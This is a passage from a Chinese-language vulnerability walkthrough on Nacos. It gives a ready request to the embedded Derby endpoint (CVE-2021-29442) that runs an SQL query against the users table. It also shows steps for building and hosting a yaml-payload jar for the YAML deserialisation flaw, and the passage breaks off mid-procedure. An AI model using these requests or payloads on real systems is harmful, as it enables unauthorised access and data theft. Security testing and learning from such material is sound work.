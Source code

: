 添加之后点击放行不要关闭拦截  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/iar31WKQlTTrjpEujD1ZWxGGw7qZEafOiaMXbtQLmYYe1Rd82YNP7hJXF5IAbuIFXeia7RDicoqw3YpAnzvkZh9C5A/640?wx_fmt=jpeg&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/iar31WKQlTTrjpEujD1ZWxGGw7qZEafOiar7D3vLJXiaxluSP47QmRv4wKI0h0MSoiacDD2JMwScQmeBsX0oCw7PBQ/640?wx_fmt=jpeg&from=appmsg "")  
  
之后关闭拦截即可  
### 6.Derby未授权访问（CVE-2021-29442）  
  
nacos带有一个嵌入式的小型数据库derby，默认无需认证即可被访问，并执行任意sql查询，导致敏感信息泄露。  
  
影响版本：在nacos <= 1.4.0，无论是否开启鉴权，该漏洞都存在。当 nacos >1.4.0， 在新版中默认没开鉴权，所有这个漏洞还存在。若开启了鉴权，版本大于1.4.0，则漏洞不存在。  
  
/nacos/v1/cs/ops/derby?sql=select * from users  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/iar31WKQlTTrjpEujD1ZWxGGw7qZEafOiaiayodU5H99dibicZwko8XJEic69z5XONVOEx7a1VYyqguPop7mbCc1TLuw/640?wx_fmt=jpeg&from=appmsg "")  
### 7.Nacos Client Yaml反序列化漏洞  
  
这个我没复现出来，网上找了几个但是都没有。。。。  
  
在1.4.1版本中存在Nacos Client Yaml反序列化漏洞，该漏洞只影响单独使用 nacos-client SDK的用户，原因在于spring cloud、springboot、dubbo等框架中并非使用的 AbstractConfigChangeListener 监听配置，所以该漏洞只影响了使用AbstractConfigChangeListener监听配置的客户端。  
  
具体思路是  
#### nacosYaml反序列化攻击  
  
工具利用  
  
https://github.com/artsploit/yaml-payload/  
  
下载之后打成jar包  
  
javac src/artsploit/AwesomeScriptEngineFactory.java  
  
编译java文件  
  
  
jar -cvf yaml-payload.jar -C src/ .  
  
  
jar：Java 自带的归档工具（类似 tar 或 zip），用于创建、查看或解压 JAR 文件。  
-c（create）：创建一个新的 JAR 文件。  
-v（verbose）：显示详细输出（打包的文件列表）。  
-f（file）：指定生成的 JAR 文件名（这里是 yaml-payload.jar）。  
-C src/：切换到 src/ 目录（相当于 cd src/）。  
  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/iar31WKQlTTrjpEujD1ZWxGGw7qZEafOia7M3VDcjGfPuSeasntrxnP8y4Rj9WqJt0AswdZiaHzqh38xTMUKhm5Zw/640?wx_fmt=jpeg&from=appmsg "")  
  
将生成的jar文件传到服务器上，到指定目录，开启web服务  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/iar31WKQlTTrjpEujD1ZWxGGw7qZEafOiak66ibP7Y3FSIoGXYuL2fv61M9bIa68NKdGtyvLsrjObYNvHQmnib2INg/640?wx_fmt=jpeg&from=appmsg "")  
  
在Nacos发现dataid为db-config  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/iar31WKQlTTrjpEujD1ZWxGGw7qZEafOiaTEqrGSjgdnmfHOnGyjuXgrJJCQricIKkZj842tJtdoVtWVc2GIBA9fQ/640?wx_fmt=jpeg&from=appmsg "")  
  
